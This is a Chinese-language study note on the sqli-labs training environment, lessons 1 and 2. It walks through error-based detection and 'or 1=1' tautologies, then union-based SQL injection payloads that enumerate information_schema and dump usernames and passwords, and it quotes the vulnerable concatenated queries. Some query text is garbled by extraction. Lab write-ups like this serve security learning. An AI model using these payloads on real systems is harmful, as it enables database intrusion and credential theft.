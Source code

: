 ###
sqli-labs 学习笔记

##
lession-1

我们可以在http://127.0.0.1/sqllib/Less-5/?id=1后面直接添加一个 '
我们可以看到提交到sql中的1'在经过sql语句构造后形成 '1'' LIMIT 0,1，多加了一个 ' 。这种方式就是从错误信息中得到我们所需要的信息，那我们接下来想如何将多余的 ' 去掉呢
尝试 'or 1=1--+
此时构造的sql语句就成了
Select ****** where id='1'or 1=1--+' LIMIT 0,1

最后从源代码中分析下为什么会造成注入？
Sql语句为sql="SELECT∗FROMusersWHEREid=′id' LIMIT 0,1";
Id参数在拼接sql语句时，未对id进行任何的过滤等操作，所以当提交 'or 1=1--+，直接构造的sql语句就是
SELECT * FROM users WHERE id='1'or 1=1--+ LIMIT 0,1
这条语句因or 1=1 所以为永恒真。

union联合注入，union的作用是将两个sql语句进行联合。Union可以从下面的例子中可以看出，强调一点：union前后的两个sql语句的选择列数要相同才可以。Union all与union 的区别是增加了去重的功能。我们这里根据上述background的知识，进行information_schema 知识的应用。
http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2--+
当id的数据在数据库中不存在时，（此时我们可以id=-1，两个sql语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的union 的数据。

爆数据库
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+ LIMIT 0,1

爆security数据库的数据表
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1

爆users表的列
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+ LIMIT 0,1

爆数据
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2--+ LIMIT 0,1

##
我们又得到了一个Mysql返回的错误，提示我们语法错误。
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1′ at line 1
现在执行的查询语句如下：
Select * from TABLE where id = 1' ;
所以这里的奇数个单引号破坏了查询，导致抛出错误。
因此我们得出的结果是，查询代码使用了整数。
Select * from TABLE where id = (some integer value);
现在，从开发者的视角来看，为了对这样的错误采取保护措施，我们可以注释掉剩余的查询：
http://localhost/sqli-labs/Less-2/?id=1–-+

源代码中可以分析到SQL语句为下：
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
对id没有经过处理

可以成功注入的有：
or 1=1
or 1=1 --+
其余的payload与less1中一直，只需要将less1中的 ' 去掉即可。
